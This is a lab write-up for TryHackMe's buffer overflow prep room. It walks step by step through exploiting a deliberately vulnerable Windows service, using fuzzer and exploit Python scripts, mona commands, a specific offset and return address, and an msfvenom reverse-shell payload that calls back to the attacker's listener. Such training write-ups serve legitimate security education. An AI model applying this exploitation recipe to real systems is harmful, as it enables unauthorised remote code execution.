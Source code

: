 
# Buffer Overflow Preparation for OSCP

Link to the room : https://tryhackme.com/room/bufferoverflowprep

Target IP address  10.10.179.101

My OS : Kali GNU/Linux 2021.2

## Accessing the machine and overview

I am told to access the target machine using RDP with given credentials :
```
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.179.101 /workarea
```
After successfully accessing the machine I can get to work but before that we must know how the whole vulnerability works. A buffer overflow condition exists when 
a program attempts to put more data in a buffer than it can hold or when a program attempts to put data in a memory area past a buffer. In this case, a buffer is a 
sequential section of memory allocated to contain anything from a character string to an array of integers. Writing outside the bounds of a block of allocated memory 
can corrupt data, crash the program, or cause the execution of malicious code.

## OVERFLOWx Cheat Sheet
If we want to get a reverse shell using buffer overflow vulnerability we have to go through a few steps to get some information about this particular environment and use it 
with our exploit.py.

Here is content of fuzzer.py which will help us with getting information how long is our buffer :
```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.179.101"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
And here is content of our exploit.py which we will edit in future to get some more information and maybe the reverse shell if we succeed :
```
import socket

ip = "10.10.179.101"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

We can divide the whole process of getting the reverse shell into :
1. Connecting to the port 1337 with netcat and choosing the right OVERFLOW (just because our task is to work with 10 various configurations)
2. Setting up mona configuration
3. Fuzzing
4. Generating a cyclic pattern of a length $(string that crashed the server) + 400
5. Running exploit.py with payload variable set to a cyclic pattern
6. Using mona to find offset number 
7. Finding bad characters and getting rid of them
8. Finding a jump point
9. Generating payload and editing our exploit.py
10. Getting the reverse shell

## OVERFLOW 1
We will start by running our Immunity Debugger and loading oscp.exe. We should Debug->run it because its loaded in paused state and then connect via netcat and port 1337 to 
choose the first OVERFLOW.
```
nc 10.10.179.101 1337
HELP
OVERFLOW1 test
```
Then let's setup our mona working folder in Immunity Debugger :
```
!mona config -set workingfolder c:\mona\%p
```
And with that out of our way we can start exploiting. First we need to get the sense of how long is our buffer. If we run `fuzzer.py 10.10.179.101` after a while we can notice 
that the server crashed with 2000 bytes long payload. Lets generate now a 2400B long cyclic pattern and copy it into "payload" variable of our exploit.py.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
Now we need to reopen our oscp.exe service and Debug->run it again. After running `python3 exploit.py` and crashing the server we can search for offset number in mona log 
window.
```
python3 exploit.py
!mona findmsp -distance 2400

output :
[...] 
EIP contains normal pattern : ... (offset 1978)
[...]
```
Update your exploit.py script with this value set as the offset variable. Now you can set the payload variable to an empty string again and the retn variable to "BBBB" so we can 
clearly see it in our logs (B is coded as 42 so we will see 42424242).

Next step is to find bad characters and we can do this by generating a bytearray using mona `!mona bytearray -b "\x00"` and excluding the null byte by default. Now we need to 
generate our own string of bad chars that is identical to the bytearray. The following script can be used :
```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```
Set the payload value of our exploit.py to the string of bad chars the script generates. 

As always we need to restart our oscp.exe in Immunity and run the modified exploit.py script again. By default you should see on the right top corner window named "Registers (FPU)" 
This one will help us to locate address to which the ESP register points and use it in the following mona command :
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP REGISTER ADDRESS>
```
A popup window should appear. The windows shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated 
bytearray.bin file. Not all of these might be badchars so we need to manually go through some of them and see if we can get rid of them. Sometimes badchars cause the next byte 
to get corrupted as well.

If the popup window don't appear there might be a problem with locating bytearray.bin file. You can try and set the working folder again, restart the process and then try to 
compare.


Possibly bad chars that I received : `07 08 2e 2f a0 a1` and now I should manually remove them from left to right. We will start with `\x07\` byte. First off you need to 
remove it from your payload variable in exploit.py and then add it onto your new bytearray generated in mona using :
```
!mona bytearrray -b "\x00\x07"
```
And keep doing it till you got no bad chars. I had to specify `\x00\x07\x2e\xa0` and after running `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP REGISTER ADDRESS>` I had 
received information that `Hooray, normal shellcode unmodified!!!`. We can move into finding a jump point.


To find a jump point you need to run the command :
```
!mona jmp -r esp -cpb <ALL OF THE BAD CHARS>
```
in section <ALL OF THE BAD CHARS> you need to specify them including byte \x00. After running this command there will be a popup window called "Log data" with "Results:". In my 
case I had a total of 9 pointers. You can choose which ever you want but I will choose the first address `0x625011af` and put it into "retn" variable in exploit.py. For this 
example it should look like this :
```
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
```
As you can see the retn variable is written backwards. Thats because system is little endian, you dont need to really know more than this. Another thing is that padding is set 
to "\x90" * 16. We need to do this because you will need some space in memory for the payload to unpack itself. Only thing that is left is to generate our payload using msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=445 EXITFUNC=thread -b <ALL BAD CHARS> -f c
```
and copying it into payload variable of our exploit.py. If everything is setup as I said you can restart your oscp.exe, run it and start listening with netcat on port 445. After 
executing exploit.py you should receive your reverse shell.
